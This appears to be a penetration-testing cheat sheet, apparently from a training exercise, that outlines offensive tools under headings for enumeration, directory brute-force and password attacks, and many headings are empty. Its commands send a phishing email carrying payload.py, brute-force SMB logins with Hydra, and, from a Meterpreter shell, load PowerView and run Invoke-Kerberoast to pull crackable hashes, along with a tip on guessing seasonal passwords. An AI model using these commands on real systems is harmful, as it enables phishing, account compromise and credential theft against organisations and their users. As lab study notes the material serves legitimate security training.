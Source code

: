 ```
sendEmail -o tls=no -t target@corp.com -f hacker@foo.bar -s
123.123.123.?:25 -u foo -a payload.py -m Click Me
```


# Enumeration
### PowerSploit

# Visual Inspection
### Aquatone
### EyeWitness

# Directory Bruce-Force
### DirBuster
### Gobuster

# Password Attacks
### hashcat
### Hydra
Hint: **Passwords formatted Season + year + punctuation are popular password options (in the case of this exercise, assume the year is 2018).** Example:
```
hydra -L domain_users.txt -P pwd_guesses.txt -o output.txt 10.10.10.10 smb.
```
### Kerberoast
When you have a Meterpreter shell on a target, you may be able to use the Kerberoast method to obtain crack-able strings from the target. 
```
load powershell
```
Then import PowerView.ps1 located in the '/root/Tools/PowerSploit/Recon'with the command.
```
powershell_import "/path/to/"PowerView.ps1
```
Open a PowerShell shell on the target using:
```
powershell_shell
```
So that you can run:
```
Invoke-Kerberoast | fl
```
If this method is successful, a hash or multiple hashes will be displayed in the output.
